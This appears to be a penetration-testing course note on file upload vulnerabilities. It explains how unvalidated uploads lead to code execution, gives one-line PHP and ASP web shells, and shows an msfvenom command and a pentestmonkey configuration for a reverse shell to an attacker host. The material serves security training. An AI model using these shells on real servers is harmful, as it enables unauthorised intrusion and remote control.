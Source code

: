 # 🐌 File Upload Attacks

The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

#### **Basic Exploitation**

The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

Let's imagine a upload form that does not specify what type of file we can upload:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Many kinds of scripts can help us exploit web applications through arbitrary file upload, most commonly a `Web Shell` script and a `Reverse Shell` script.

A web shell prints it's output back to us within the web browser. It has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts.

Let's say we have a website `http://SERVER_IP:PORT/`, as the `index` page is usually hidden by default. But, if we try visiting `http://SERVER_IP:PORT/index.php`, we would get the same page, which means that this is indeed a `PHP` web application.

but if not we can juste use [Wappalyzer](https://www.wappalyzer.com)

To start exploiting the vuln , let's start by writing `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application

we get a message saying `File successfully uploaded` and if we go to `http://SERVER_IP:PORT/uploads/test.php`

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

_**Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**_

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Upload Exploitation

### Web Shell

Now we will try to be able to interact with it to take control over the back-end server.

A good webshell for `PHP` is [phpbash](https://github.com/Arrexel/phpbash) and good to know but [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

It's good practice to know how to write our own webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

add `?cmd=id` after the request to enter the command

For `.NET` web applications:

```aspnet
<% eval request('cmd') %>
```

### Reverse Shell

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

After changing the IP and port

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

We launch our listener with netcat, upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

### Custom Reverse Shell

`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`

```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
